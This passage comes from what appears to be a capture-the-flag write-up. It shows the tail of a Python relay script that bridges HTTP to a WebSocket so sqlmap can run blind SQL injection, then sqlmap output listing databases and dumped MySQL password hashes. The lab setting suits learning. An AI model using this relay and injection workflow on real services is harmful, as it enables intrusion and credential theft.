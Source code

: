 ```python
	httpd.serve_forever()


if (len(sys.argv) < 3) :
    print("Usage: ./relay.py [ws host] [parameter] \n   ex. ./relay.py 127.0.0.1:9000 id")
    sys.exit()

addr = sys.argv[1]
param = sys.argv[2]

print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081), addr, param)
except KeyboardInterrupt:
	pass
```

On my attacker box, I ran this script. Then in a separate tab I tried making some cURL requests to this server. It worked like a charm:

![ws sqli relay](ws%20sqli%20relay.png)



### SQLMap over Websocket

That's all great, but I could do that already just using Burp. The real goal was to try running SQLmap (which works over http) on this, just like [in the article](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) where I took the original code. Let's see what SQLMap turns up:

![sqlmap 1](sqlmap%201.png)

![sqlmap 2](sqlmap%202.png)

```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys
```

Don't get me wrong, I'm glad it's injectable, but time-based blind injections take f...o...r...e...v...e...r..... 💀
Thankfully, we have direct access to the database, so all we really need are some credentials. So instead of dumping the database contents, I'll just obtain the password hashes and get cracking.

After a few hours, finally a few hashes were recovered:

```
database management system users password hashes:
[*] debian-sys-maint [1]:
    password hash: $A$005$Qj\x1fA(\\0
[*] mysql.infoschema [1]:
    password hash: $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED
[*] mysql.session [1]:
    password hash: $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED
[*] mysql.sys [1]:
    password hash: $A$005$THISISACOMBINATIONOFINVALIDSALTANDPASSWORDTHATMUSTNEVERBRBEUSED
[*] player [1]:
    password hash: *9C66A903EC673FCF95D84CE93691AD526969AA3C
[*] root [1]:
```